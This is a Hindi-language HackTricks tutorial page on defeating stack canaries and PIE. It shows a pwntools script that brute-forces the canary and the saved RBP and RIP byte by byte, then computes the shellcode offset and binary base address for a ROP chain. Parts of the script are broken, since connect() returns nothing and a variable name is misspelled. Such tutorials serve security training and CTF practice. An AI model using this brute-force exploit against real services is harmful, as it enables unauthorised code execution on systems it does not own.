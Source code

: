 # स्टैक में बीएफ पतों का पता लगाना

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> से <strong>AWS हैकिंग सीखें</strong>!</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन **HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) से या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>

**अगर आपके सामने एक कैनरी और PIE (पोजीशन इंडिपेंडेंट एक्जीक्यूटेबल) द्वारा संरक्षित बाइनरी है, तो आपको शायद उन्हें दूर करने का एक तरीका ढूंढने की आवश्यकता होगी।**

![](<../../../.gitbook/assets/image (862).png>)

{% hint style="info" %}
ध्यान दें कि **`checksec`** यह नहीं पता लगा सकता कि एक बाइनरी को कैनरी द्वारा संरक्षित किया गया है अगर यह स्थाई रूप से कॉम्पाइल किया गया था और यह फ़ंक्शन को पहचानने की क्षमता नहीं है।\
हालांकि, आप इसे मैन्युअल रूप से ध्यान दे सकते हैं अगर आपको लगता है कि किसी मानक कोल के शुरू में स्टैक में एक मान सहेजा गया है और इस मान की जांच प्रक्रिया समाप्त होने से पहले की जाती है।
{% endhint %}

## ब्रूट-फ़ोर्स पतों

**PIE को दूर करने** के लिए आपको **कुछ पतों को लीक करने** की आवश्यकता है। और अगर बाइनरी को कोई पता नहीं लीक कर रहा है तो सबसे अच्छा यह है कि आप **वलनरेबल फ़ंक्शन में स्टैक में सहेजे गए RBP और RIP को ब्रूट-फ़ोर्स करें**।\
उदाहरण के लिए, यदि एक बाइनरी को एक **कैनरी** और **PIE** का उपयोग करके संरक्षित किया गया है, तो आप कैनरी को ब्रूट-फ़ोर्स करना शुरू कर सकते हैं, फिर **अगले** 8 बाइट (x64) में सहेजे गए **RBP** होगा और **अगले** 8 बाइट में सहेजे गए **RIP** होंगे।

{% hint style="success" %}
समझा जाता है कि स्टैक में वापसी पता मुख्य बाइनरी कोड का हिस्सा है, जो, यदि दुरुपयोग बाइनरी कोड में स्थित है, तो आम तौर पर मामला होगा।
{% endhint %}

बाइनरी से RBP और RIP को ब्रूट-फ़ोर्स करने के लिए आप यह तय कर सकते हैं कि एक मान्य अनुमानित बाइट सही है अगर प्रोग्राम कुछ आउटपुट करता है या यह केवल क्रैश नहीं होता है। कैनरी को ब्रूट-फ़ोर्स करने के लिए प्रदान किए गए वही फ़ंक्शन RBP और RIP को ब्रूट-फ़ोर्स करने के लिए उपयोग किया जा सकता है:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
आपको PIE को परास्त करने के लिए आखिरी चीज़ यह है कि **लीक हुए पतों से उपयोगी पतों की गणना करनी है**: **RBP** और **RIP**।

**RBP** से आप **स्टैक में अपनी शैल को कहाँ लिख रहे हैं** यह गणना कर सकते हैं। यह जानना बहुत उपयोगी हो सकता है कि आप स्टैक के अंदर _"/bin/sh\x00"_ स्ट्रिंग को कहाँ लिखने जा रहे हैं। लीक हुए RBP और आपकी शैलकोड के बीच की दूरी की गणना करने के लिए आप बस एक **ब्रेकपॉइंट डाल सकते हैं जब RBP लीक हो जाए** और चेक कर सकते हैं **कि आपकी शैलकोड कहाँ स्थित है**, फिर, आप शैलकोड और RBP के बीच की दूरी की गणना कर सकते हैं:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP** से आप **PIE binary का base address** की गणना कर सकते हैं जो आपको **एक मान्य ROP chain बनाने की आवश्यकता है**।\
बेस एड्रेस की गणना के लिए बस `objdump -d vunbinary` करें और डिसएंबल नवीनतम पते की जाँच करें:

![](<../../../.gitbook/assets/image (476).png>)

उस उदाहरण में आप देख सकते हैं कि सभी कोड को ढूंढने के लिए केवल **1 बाइट और आधा** आवश्यक है, फिर, इस स्थिति में बेस एड्रेस लीक्ड RIP पर होगा लेकिन "000" पर समाप्त होगा। उदाहरण के लिए अगर आपने `0x562002970ecf` लीक किया है तो बेस एड्रेस `0x562002970000` होगा।
```python
elf.address = RIP - (RIP & 0xfff)
```
## सुधार

[**इस पोस्ट से कुछ अवलोकन के अनुसार**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), यह संभव है कि RBP और RIP मानों को लीक करते समय, सर्वर क्रैश नहीं होगा जब कुछ मान गलत हों जो सही नहीं हैं और BF स्क्रिप्ट सही मानों को प्राप्त हुआ मानेगा। यह इसलिए है क्योंकि संभावना है कि **कुछ पते इसे तोड़ नहीं पाएंगे भले ही वे बिल्कुल सही न हों**।

उस ब्लॉग पोस्ट के अनुसार सुझाव दिया गया है कि सर्वर के बीच अनुरोधों के बीच एक छोटी देरी जोड़ना चाहिए।
